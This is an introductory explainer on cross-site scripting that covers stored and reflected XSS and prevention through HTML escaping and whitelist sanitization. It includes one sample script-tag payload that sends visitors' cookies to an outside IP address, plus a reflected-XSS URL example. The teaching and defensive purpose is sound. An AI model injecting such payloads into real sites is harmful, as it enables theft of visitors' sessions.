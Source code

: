 # Cross Site Scripting

Author: Tan Wang Leng

## Overview

Cross site scripting (XSS) is a vulnerability found in websites.

Textboxes are commonly used in forms in websites to ask the user for input. For
example, blog websites may provide a textbox for user to enter comments.

However, are they limited to just typing in plain text? For some websites, they
may not check their input, thus users are able to use formatting HTML tags, such
as `<b>` for bolding and `<i>` for italic.

```html
I <b>like</b> your blog post!
```

becomes: I **like** your blog post!

The problem of not checking the user's input is when the user starts using HTML
for malicious purposes. For example, HTML also supports `<script>`, for you to
write JavaScript code on the webpage as well.

```html
This is an innocent looking comment. <script>sendToServer("http://139.241.0.3/", document.cookie)</script>
```

While any visitors of the blog will only see the non-script portion of the
comments (i.e. `This is an innocent looking comment.`), the browser will not
show the script portion of the comment, because it is legal HTML (you won't see
the tags like `<b>` and `<i>` when viewing webpages, so you definitely won't see
`<script>` on the webpage).

However, the browser is **actually executing the script**. Therefore, the hacker
can write any script that he wants (in our example, a function to send to the
hacker the user's cookies), without the user even being aware of what's going
on.

Therefore, the hacker has managed to add additional malicious "functionality" to
the website, that is not written by the original website developer.

Resources:
1. http://projects.webappsec.org/f/WASC-TC-v2_0.pdf (page 32)
1. http://guides.rubyonrails.org/security.html#cross-site-scripting-xss
1. https://www.owasp.org/index.php/Cross-site_Scripting_%28XSS%29
1. http://www.symantec.com/connect/blogs/cross-site-scripting-vulnerabilities

## Types of Cross Site Scripting

There are no standard definitions, but there are at least two different types of
XSS:

* Persistent XSS (also known as stored XSS) - The JavaScript code gets stored in
the web server. Example: Posting a malicious JavaScript code into a blog post as
a comment. The comment gets stored in the database, and future visitors of the
webpage will retrieve the comment from the database, resulting in execution.

* Non-persistent XSS (also known as reflected XSS) - The JavaScript code is
inserted in URL/links of website that accepts URL parameters as input. The input
is therefore not stored in a database. For example:

`https://www.ecard.com/view-ecard.php?content=Happy%20Holidays<script>...</script>`

Resources:
1. http://projects.webappsec.org/f/WASC-TC-v2_0.pdf (page 33)
1. https://www.owasp.org/index.php/Cross-site_Scripting_%28XSS%29#Stored_and_Reflected_XSS_Attacks
1. http://security.stackexchange.com/questions/65142/what-is-reflected-xss

## Preventing Cross Site Scripting

There are a couple of ways to prevent your website against XSS. The two most
common ways are:

* Escaping String Input: By converting legal HTML characters to their
display-equivalent (e.g. `<` to `&lt;`), you prevent the symbol from being
parsed as HTML. It now even shows the content on the screen (in case the actual
intention is to actually show someone how to code for example).

* Whitelist Sanitization: By scanning and parsing the input as HTML, you can
remove undesired HTML elements, and only allowing certain whitelisted HTML
elements to be used (e.g. whitelisting only `<b>` and `<i>`).

Resources:
1. https://www.owasp.org/index.php/XSS_%28Cross_Site_Scripting%29_Prevention_Cheat_Sheet
(2.2 RULE #1 - HTML Escape Before Inserting Untrusted Data into HTML Element Content)
(2.7 RULE #6 - Sanitize HTML Markup with a Library Designed for the Job)
1. https://github.com/OWASP/java-html-sanitizer
1. https://github.com/rails/rails_xss
1. http://api.rubyonrails.org/classes/ActionView/Helpers/SanitizeHelper.html
